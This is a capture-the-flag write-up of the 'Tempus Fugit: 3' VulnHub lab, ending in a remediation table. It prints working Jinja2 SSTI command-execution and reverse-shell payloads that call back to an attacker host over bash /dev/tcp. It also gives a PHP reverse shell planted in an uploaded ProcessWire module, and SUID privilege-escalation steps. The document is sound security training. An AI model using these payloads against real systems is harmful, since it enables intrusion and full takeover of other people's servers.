





# Tempus Fugit: 3 — Writeup

| Field | Value |
|---|---|
| **Target IP** | (DHCP — add to `/etc/hosts` as `tempusf3.vh`) |
| **Difficulty** | Hard |
| **OS** | Linux |
| **Goal** | root flag |
| **Source** | [HackingArticles](https://www.hackingarticles.in/tempus-fugit-3-vulnhub-walkthrough/) |

## Attack Summary

A web application vulnerable to Server-Side Template Injection (SSTI) in Jinja2 provides initial code execution. Reading the application source reveals a `pragma key` used to decrypt a SQLCipher database, yielding user credentials and flags. Port forwarding exposes a second web application (ProcessWire CMS) where a malicious module upload gives a shell. Multiple lateral movement steps through QR-code-based 2FA and SSH key discovery lead to a user capable of running a custom SUID binary that spawns root when the caller's UID matches a hardcoded value.

## Methodology

1. Host discovery and full-port Nmap scan
2. SSTI identification and exploitation (Jinja2 RCE)
3. SQLCipher database decryption for credentials and flags
4. SSH port forwarding to expose internal services
5. ProcessWire CMS malicious module upload for shell
6. Lateral movement: QR-code 2FA (`myrtia`), SSH private key (`cecil`)
7. Privilege escalation: SUID `ping` binary UID check bypass to root

## Step 1: Host Discovery

```bash
netdiscover -i eth0
# Add target to hosts
echo "192.168.x.x  tempusf3.vh" >> /etc/hosts
```

## Step 2: Full Port Scan

```bash
nmap -A -p- tempusf3.vh
```

Identify web service port(s) and any SSH ports.



## Step 3: SSTI Identification

The login panel URL accepts user input that is reflected without sanitization. Test for template injection:

- Twig: `{{7*7}}` returns `49` but `{{7*'7'}}` returns `49` (Twig returns `49`)
- Jinja2: `{{7*'7'}}` returns `7777777`

Confirm Jinja2 with:

```
{{7*'7'}}
# Output: 7777777
```

Test OS command execution:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```



## Step 4: Reverse Shell via SSTI

Start a netcat listener:

```bash
nc -lvnp 4444
```

Send the reverse shell payload through the SSTI:

```
{{''.__class__.__mro__[1].__subclasses__()[373](['bash','-c','bash -i >& /dev/tcp/LHOST/4444 0>&1'],stdout=-1,stderr=-1).communicate()}}
```

Replace `LHOST` with your attacker IP. A bash shell arrives on the listener.



## Step 5: Read app.py for Secret Key and Pragma Key

```bash
cat app.py
# Reveals: secret_key and pragma key
```

A base64-encoded Flag 1 is also embedded. Decode it:

```bash
echo "<base64_string>" | base64 -d
```

## Step 6: Decrypt SQLCipher Database

A SQLite database is encrypted with SQLCipher. Use the pragma key from `app.py`:

```bash
sqlcipher database.db
PRAGMA key='<pragma_key>';
.tables
SELECT * FROM users;
```

This dumps all registered users with their passwords and a base64-encoded Flag 2. Decode Flag 2:

```bash
echo "<base64_string>" | base64 -d
# Reveals port number: 37303
```

## Step 7: Internal Port Scan and Port Forwarding

Run a Python port scanner on the target to find internal ports:

```python
import socket
for port in range(1, 65535):
    s = socket.socket()
    s.settimeout(0.1)
    if s.connect_ex(('127.0.0.1', port)) == 0:
        print(port)
    s.close()
```

Find port 37303 (SSH) and port 443. Forward both:

```bash
# From attacker, via SSH port forwarding using an existing session
ssh -L 37303:127.0.0.1:37303 -L 8443:127.0.0.1:443 user@tempusf3.vh -p <port>
```

Browsing the forwarded port 443 reveals a second website (ProcessWire CMS) with an admin panel. The site mentions **"Hugh Janus"** as administrator.

## Step 8: ProcessWire CMS — Malicious Module Upload

Log in to the admin panel at `/processwire/` (or the discovered path):

- Username: `admin`
- Password: `Hugh` (the password of "Hugh")

Download the HelloWorld example module from the ProcessWire site. Edit `HelloWorld.module.php` to add a reverse shell in the `else` block:

```php
else {
    system('bash -c "bash -i >& /dev/tcp/LHOST/5555 0>&1"');
}
```

Start a listener:

```bash
nc -lvnp 5555
```

Upload the modified module through the CMS admin panel (Modules > Install > Upload). Load the module to trigger the payload.

## Step 9: Lateral Movement to User `myrtia`

In the web shell, browse to the backups folder:

```bash
find / -name "*.png" 2>/dev/null | grep backup
```

A backup image named after a user contains a **QR code** encoding a TOTP 2FA secret. Scan it with Google Authenticator or a TOTP app.

```bash
ssh myrtia@tempusf3.vh -p 37303
# Enter TOTP code when prompted
```

Read Flag 4:

```bash
cat ~/flag4.txt
```

Check sudo rights:

```bash
sudo -l
# (root) /path/to/addcustomer
```

## Step 10: Lateral Movement to User `cecil`

```bash
# Find files owned by UID 1337
find / -uid 1337 2>/dev/null
```

Create a new user with UID 1337 to read the file:

```bash
sudo /path/to/addcustomer
# Create user with UID 1337
su uid1337user
cat /path/to/file
# Contains SSH private key
```

Try the key against each user:

```bash
ssh -i id_rsa cecil@tempusf3.vh -p 37303
```

## Step 11: Privilege Escalation via SUID `ping` Binary

Analyze the custom `ping` binary with Ghidra (or `strings`):

```bash
strings /path/to/ping
# Finds hardcoded UID check against "deadbeef"
```

In Ghidra, the binary spawns `/bin/sh` only when `getuid()` matches `0xdeadbeef` (3735928559 decimal). Create a user with that UID:

```bash
# As myrtia via sudo addcustomer, create user with UID 3735928559
su deadbeefuser
/path/to/ping deadbeef
whoami
# root
```



```bash
cd /root
cat flag.txt
```



## Lessons Learned

- Jinja2 SSTI is critical: unsanitized user input passed to `render_template_string()` allows arbitrary OS command execution.
- Embedding a `pragma key` in the application source defeats encryption — key material must be stored outside the codebase (environment variables, secrets manager).
- QR-code 2FA secrets stored as backup images are effectively plaintext credentials.
- SUID binaries with hardcoded UID checks are a non-standard but real privilege escalation vector; always audit custom SUID binaries with a decompiler.

## Remediation

| Vulnerability | Fix |
|---|---|
| Jinja2 SSTI | Never pass user-controlled input to `render_template_string()`; use `render_template()` |
| SQLCipher key in source code | Store database key in environment variable or secrets manager |
| ProcessWire module upload as admin | Restrict file upload to trusted admins; disable module uploads in production |
| 2FA secret stored as backup image | Store TOTP secrets only in the authenticator app; never export as recoverable image |
| SUID binary UID hardcode | Remove custom SUID binary; use standard sudo with minimal privileges |
